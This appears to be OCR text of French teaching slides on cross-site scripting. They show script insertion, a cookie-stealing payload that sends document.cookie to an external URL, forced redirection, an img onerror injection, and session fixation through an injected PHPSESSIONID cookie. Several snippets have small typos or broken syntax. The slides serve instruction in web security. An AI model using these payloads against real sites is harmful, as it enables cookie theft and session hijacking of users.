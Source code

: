 # Insertion de script
```
<script>alert("Coucou !');</script>
```
## Vole de cookie
```
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```
## Redirection automatique
```
<script>document.location="http://www.hsc.fr/"</script>
```
Rend inutilisable la page générée ✗ L'utilisateur ne comprend pas la manipulation
# Insertion de tags HTML
## En particulier de tags
```
<img src="http://www.serveur.tld/image.jpg"/>
```
```
<img src= x onerror(alerte(1))>
```
# Fixation de session
✗ Principe : utiliser un XSS afin d'imposer un cookie connu à la victime 
✗ Schéma : 
✗ L'attaquant se connecte sur le serveur en mode anonyme 
 Il reçoit un cookie de session (ex JSP ou PHP) 
✗ Il utilise un XSS sur un serveur du même domaine pour fixer le cookie chez la victime (via le code JavaScript de type 
```
<script> document.cookie="PHPSESSIONID=78191;domain=.site.fr" <script>
```
✗ Il attend que la victime s'authentifie sur le serveur. Si celui ci est mal programmé (exemple sessions J2EE), le cookie sera accepté. 
✗ L'attaquant possède alors un cookie de session authentifié valide qu'il peut utiliser en parallèle avec la victime